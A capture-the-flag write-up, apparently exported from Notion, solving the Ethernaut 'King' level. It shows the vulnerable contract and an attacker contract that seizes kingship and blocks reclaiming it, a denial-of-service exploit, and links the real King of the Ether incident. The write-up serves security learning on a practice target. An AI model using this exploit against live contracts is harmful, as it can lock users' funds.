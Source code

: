 ```yaml
---
title: "King"
date: "2024-02-02"
lastmod: "2024-02-12T14:45:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Vault-d8ba3eafb273440f9a492b042e65f214"
weight: 9
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/9"
next: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "8338a297-a2b4-47b3-b401-66c68586199d"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T14:45:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Vault-d8ba3eafb273440f9a492b042e65f214"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Vault-d8ba3eafb273440f9a492b042e65f214"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-02"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 9
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/9"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "King"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "King"
          href: null
  url: "https://www.notion.so/King-8338a297a2b447b3b40166c68586199d"
  public_url: null
UPDATE_TIME: "2024-02-14T14:48:33.294Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD


Such a fun game. Your goal is to break it.


When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```


> 💡 Most of Ethernaut's levels try to expose (in an oversimplified form of   
> course) something that actually happened — a real hack or a real bug.  
> In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface King {
  function prize() external returns(uint);
  function owner() external returns(address);
  receive() external payable;
  function _king() external view returns (address);
}

contract TheOnlyOneKing {
  King fakeKing;

  constructor(address payable _fakeKing) {
    fakeKing = King(_fakeKing);
  }

  function becomeTheOnlyOneKing() public payable {
    uint prize = fakeKing.prize();
    (bool success,) = address(fakeKing).call{value: prize}("");
    require(success, 'failed become the only one king');
  }

  receive() external payable {
    if (fakeKing._king() != address(this)) {
      payable(fakeKing).transfer(msg.value);
    }
  }
}
```


This solution is overkill since we can just forbid the to send ether to a contract just by not implementing any fallback function. But this solution is more fun since it’s like TheOnlyOneKing is always fighting back for his crown ! 👑

